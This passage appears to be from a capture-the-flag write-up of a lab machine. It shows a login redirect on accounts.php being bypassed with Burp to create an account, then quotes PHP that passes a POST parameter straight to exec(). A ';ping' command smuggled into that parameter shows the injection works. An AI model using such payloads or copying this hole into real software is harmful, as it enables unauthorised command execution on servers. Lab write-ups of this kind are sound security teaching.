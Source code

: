 ### /accounts.php

Request of `accounts.php` is redirected to -> `login.php`

But when intercepted with Burp, we have interesting results

![](/img/previse/Pasted%20image%2020211225134915.png)

If we send a post request, we can create a new user
![](/img/previse/Pasted%20image%2020211225134951.png)

#### Sending the POST request
Request:

![](/img/previse/Pasted%20image%2020211225135604.png)

Response:
![](/img/previse/Pasted%20image%2020211225135625.png)

So now we have a user with username and password as `fakebatman:fakebatman`

## Getting user shell

The logs file executes a python script and appends a delimiter that is parsed through a POST parameter

*logs.php*
```php
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

So when we send the delim=`;ping 10.10.14.33 -c 5` and we run `tcpdump` to check if we are actually receiving any pings, we get ping hits.

Appending the command:

![](/img/previse/Pasted%20image%2020211225175758.png)

And we get the ping hits:

```bash
$ sudo tcpdump -i tun0 icmp
```

![](/img/previse/Pasted%20image%2020211225180213.png)

### Getting a reverse shell (www-data)

Start a reverse shell
